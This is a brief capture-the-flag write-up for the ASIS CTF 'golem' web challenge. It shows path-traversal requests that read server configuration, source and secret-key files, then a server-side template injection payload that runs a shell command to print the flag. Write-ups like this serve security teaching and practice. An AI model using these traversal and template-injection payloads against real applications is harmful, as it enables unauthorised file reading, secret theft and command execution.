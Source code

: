# golem

## LFI

`https://golem.asisctf.com/article?name=../../../../../../etc/nginx/sites-enabled/golem`
=>
location /static/ {
    root /opt/serverPython/golem;
    expires 30d;
    add_header Pragma public;
    add_header Cache-Control &#34;public&#34;;
}



`https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/server.py`
=>
execfile('flag.py')
execfile('key.py')
FLAG = flag
app.secret\_key = key
...


https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/secret.py
=>
`secret key: 7h15_5h0uld_b3_r34lly_53cur3d`


## SSTI

use the secret key to let session['golem'] = {{ config[\'RUNCMD\'](\'grep "ASIS" flag.py\',shell=True) }}
=>
`ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

